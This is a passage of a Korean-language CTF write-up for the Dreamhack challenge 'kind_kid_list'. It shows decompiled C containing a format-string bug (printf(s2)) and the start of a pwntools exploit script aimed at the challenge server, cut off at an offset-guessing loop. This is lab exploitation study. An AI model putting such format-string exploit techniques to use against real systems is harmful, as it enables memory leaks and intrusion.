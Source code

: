 ```c
          __isoc99_scanf("%8s", v16);
          if ( v26 > 7 )
          {
            v4 = "Kind list full";
            puts("Kind list full");
          }
          else
          {
            v3 = v16;
            v4 = &v20[16 * v26];
            strcpy(v4, v16);
            ++v26;
          }
        }
        else
        {
          printf(s2);
          v4 = " is Wrong password!";
          puts(" is Wrong password!");
        }
      }
    }
  }
  v25 = 0;
  v9 = "wyv3rn";
  if ( !strcmp(v20, "wyv3rn") )
  {
    for ( i = 0; i <= 5; ++i )
    {
      v9 = &src[i];
      if ( !strcmp(&dest[i], v9) )
      {
        puts("Wyv3rn : My name is still remain on the naughty kid list!");
        exit(0);
      }
    }
    puts("\nWyv3rn : You did it!");
    puts("Wyv3rn : Here is flag!");
    flag("Wyv3rn : Here is flag!", v9, v10, v11, v12, v13);
    exit(0);
  }
  puts("Wyv3rn : My name is not on the kind kid list!");
  exit(0);
}
```

main함수를 보면 8byte짜리 작은 fsb를 주는걸 볼 수 있다. 일단 저 fsb로 패스워드를 릭해야되는데 offset맞추기 귀찮아서

```python
from pwn import *

#context.log_level = "debug"

sla = lambda x, y : r.sendlineafter(x, y)
sa = lambda x, y : r.sendafter(x, y)
rvu = lambda x : r.recvuntil(x)
rv = lambda x : r.recv(x)
rvl = lambda : r.recvline()

#r = process("./kind_kid_list")
r = remote("host1.dreamhack.games", 9141)

offset = 1
for i in range(0x100):
```